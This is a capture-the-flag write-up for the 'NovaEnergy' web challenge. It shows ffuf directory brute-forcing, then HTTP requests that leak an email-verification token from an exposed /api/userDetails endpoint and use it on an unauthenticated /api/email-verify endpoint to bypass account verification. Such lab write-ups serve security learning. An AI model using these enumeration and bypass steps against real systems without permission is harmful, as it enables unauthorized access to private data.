



# NovaEnergy - HackTheSystemCTF

### ===== Challenge =====

- NovaEnergy is a internal web application used for file sharing system. This site can only be accessed by employee of NovaEnergy company. You're tasked to hunt for any vulnerabilities that led to any breaches in their site.

### ===== Analysis =====



- When creating an account:
    - Your email must be of the 'gonuclear.com' domain.
	- You must verify your account via an e-mail.
- There is this /static/api.js file that contains some interesting endpoints, especially the `/api/email-verify` (the last one), which can be requested **without any kind authentication**.
``` js
// API client module - calls FastAPI backend directly
const API = {
    baseURL: '/api', // Direct FastAPI URL

    // Make authenticated API request
    async request(endpoint, options = {}) {
        const url = `${this.baseURL}${endpoint}`;
        const headers = {
            ...Auth.getAuthHeaders(),
            ...options.headers
        };

        const config = {
            ...options,
            headers
        };

        try {
            const response = await fetch(url, config);
            
            // Handle authentication errors
            if (response.status === 401) {
                Auth.removeToken();
                window.location.href = '/login';
                throw new Error('Authentication required');
            }

            const data = await response.json();
            
            if (!response.ok) {
                throw new Error(data.detail || data.error || `HTTP error! status: ${response.status}`);
            }

            return data;
        } catch (error) {
            console.error('API request failed:', error);
            throw error;
        }
    },

    // Get user files
    async getFiles() {
        return this.request('/files');
    },

    // Upload file(s)
    async uploadFile(file) {
        const formData = new FormData();
        formData.append('file', file);

        return this.request('/files/upload', {
            method: 'POST',
            body: formData,
            headers: {
                // Don't set Content-Type for FormData, let browser set it
                'Authorization': `Bearer ${Auth.getToken()}`
            }
        });
    },

    // Download file
    async downloadFile(fileId) {
        const url = `${this.baseURL}/files/${fileId}/download`;
        const response = await fetch(url, {
            headers: Auth.getAuthHeaders()
        });

        if (!response.ok) {
            throw new Error('Download failed');
        }

        // Get filename from Content-Disposition header if available
        const contentDisposition = response.headers.get('Content-Disposition');
        let filename = `file_${fileId}`;
        
        if (contentDisposition) {
            const filenameMatch = contentDisposition.match(/filename="(.+)"/);
            if (filenameMatch) {
                filename = filenameMatch[1];
            }
        }

        const blob = await response.blob();
        Utils.downloadBlob(blob, filename);
    },

    // Delete file
    async deleteFile(fileId) {
        return this.request(`/files/${fileId}`, {
            method: 'DELETE'
        });
    },

    // Get file details
    async getFile(fileId) {
        return this.request(`/files/${fileId}`);
    },

    // Get user profile/info
    async getUserInfo() {
        // This would be implemented if the API has a user info endpoint
        // For now, return mock data based on stored email
        return {
            email: localStorage.getItem('userEmail'),
            name: localStorage.getItem('userEmail')?.split('@')[0] || 'User'
        };
    },

    //  Verify email with token
    async verifyEmail(email, token) {
        return this.request('/email-verify', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                email: email,
                token: token
            })
        });
    }
};
```

- I didn't find anything interesting, so I decided to bruteforce `/api` using ffuf and found `/api/docs`
``` bash
 varanda@debian~CTF/HTB/Challs/Web/NovaEnergy$ ffuf -u http://94.237.57.115:32271/api/FUZZ -w dirlist.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
       
[....] <Removed useless output>

files                   [Status: 401, Size: 30, Words: 2, Lines: 1]
docs                    [Status: 200, Size: 962, Words: 152, Lines: 31]
redoc                   [Status: 200, Size: 910, Words: 178,
[...] 
```




- Great! It's a **swagger** template, which allows me to see the available endpoints and to make requests from the UI. Here I see that there is a `/api/userDetails` endpoint. I send the request and got my **verify-token** as part of the response.

``` http
POST /api/userDetails HTTP/1.1
Host: 94.237.57.115:32271
Content-Length: 35
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.57.115:32271
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"varanda@gonuclear.com"}
```

```json
{
  "id": 7,
  "email": "varanda@gonuclear.com",
  "is_verified": false,
  "created_at": "2025-10-15T13:49:10.957310",
  "verifyToken": "e1840346-389c-45f9-b961-a38f25051275",
  "last_login": null
}
```

### ===== Exploitation =====


- I'll now use the unauthenticated  `/api/email-verify` I found before and verify my account.
``` http
POST /api/email-verify HTTP/1.1
Host: 94.237.57.115:32271
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 90

{
	"email": "varanda@gonuclear.com",
	"token": "e1840346-389c-45f9-b961-a38f25051275"
}
```

``` http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 15 Oct 2025 13:58:37 GMT
Content-Type: application/json
Content-Length: 41
Connection: keep-alive

{"message":"Email verified successfully"}
```

- After doing this, I am able to login with the user I created and in the user dashboard we see the **flag.txt** file ready to be downloaded.




writeup by *varanda* - 15/10/2025